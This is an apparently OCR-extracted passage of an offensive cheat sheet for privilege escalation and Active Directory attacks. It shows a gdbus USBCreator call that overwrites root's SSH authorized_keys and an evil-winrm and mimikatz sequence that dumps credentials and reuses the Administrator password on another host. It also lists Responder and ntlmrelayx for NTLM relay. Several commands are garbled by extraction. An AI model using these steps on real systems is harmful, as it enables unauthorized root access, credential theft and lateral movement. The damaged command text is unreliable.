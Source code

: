 Methods:

gdbus call \--system \--dest com.ubuntu.USBCreator \--object-path
/com/ubuntu/USBCreator \--method com.ubuntu.USBCreator.Image
/home/nadav/authorized_keys /root/.ssh/authorized_keys true

<a name="abusing-trusted-dc"></a>
# Abusing Trusted DC

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Abuse Channel

Methods:

1.  Find user in First DC

2.  If port 6666 enabled

3.  proxychains evil-winrm -u user -p \'pass\' -i 10.100.9.253 -P 6666

4.  . \\mimikatz. exe \"privilege:: debug\" \"sekurlsa::
    > logonpasswords\" \"token:: elevate\" \*lsadump:: secrets\*
    > \*exit\"

5.  proxychains evil-winrm -u Administrator -p \'pass dumped in step 4\'
    > -i 10.100.10.100 -P 6666

<a name="ntlm-relay"></a>
# NTLM Relay 

Domain: Yes

Local Admin: Y/N

OS: Windows

Methods:

responder -I eth1 -v

ntlmrelayx.py ...

<a name="exchange-relay"></a>
# Exchange Relay 

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: NTLM
